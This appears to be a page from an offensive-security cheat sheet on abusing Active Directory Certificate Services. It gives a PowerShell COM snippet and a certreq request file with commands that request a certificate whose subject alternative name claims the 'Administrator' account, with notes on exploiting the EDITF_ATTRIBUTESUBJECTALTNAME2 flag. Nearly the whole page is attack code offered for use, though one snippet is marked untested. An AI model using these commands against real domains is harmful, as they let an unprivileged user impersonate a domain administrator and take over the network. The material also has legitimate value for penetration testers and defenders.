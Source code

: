 ```text
# Create a com object and set the subject alternative name
$SAN = New-Object -ComObject X509Enrollment.CX509ExtensionAlternativeNames
$IANs = New-Object -ComObject X509Enrollment.CAlternativeNames
$IAN = New-Object -ComObject X509Enrollment.CAlternativeName
$IAN.InitializeFromString(0xB,"Administrator") # UPN to use e.g. user@domain.local or user
$IANs.Add($IAN)
$SAN.InitializeEncode($IANs)

# Create a request object to request the certificate based on a template
$Request = New-Object -ComObject X509Enrollment.CX509Enrollment
$Request.InitializeFromTemplateName(0x1,"TemplateName") # Template to use
$Request.Request.X509Extensions.Add($SAN)
$Request.CertificateFriendlyName = "TemplateName" # Template to use

# Enroll the certificate
$Request.Enroll()
```

> this already should be configured to abuse `EDITF_ATTRIBUTESUBJECTALTNAME2` you need to modify `$IAN.InitializeFromString(0xB,"Administrator")` \(Not tested\)

**CertReq**

request.inf \([template](https://skanthak.homepage.t-online.de/certificate.html)\)

```text
[NewRequest]
Subject = "CN=ComputerName,CN=Computers,DC=domain,DC=local"
Exportable = TRUE
KeyLength = 2048
KeySpec = 1
KeyUsage = 0x60
MachineKeySet = FALSE
ProviderName = "Microsoft RSA SChannel Cryptographic Provider"
[RequestAttributes]
CertificateTemplate=Web
SAN="upn=Administrator" ;or upn=Administrator@domain.local
[Extensions]
2.5.29.17 = "{text}"
_continue_ = "upn=Administrator" ;or upn=Administrator@domain.local
[EnhancedKeyUsageExtension]
OID = 1.3.6.1.4.1.311.20.2.2
OID = 1.3.6.1.5.5.7.3.2
```

> to abuse `EDITF_ATTRIBUTESUBJECTALTNAME2` you need to modify `SAN="upn=Administrator"`

commands

```text
certreq -q -new request.inf request.pem
certreq -q -submit request.pem cert.pem
certreq -q -accept cert.pem
```
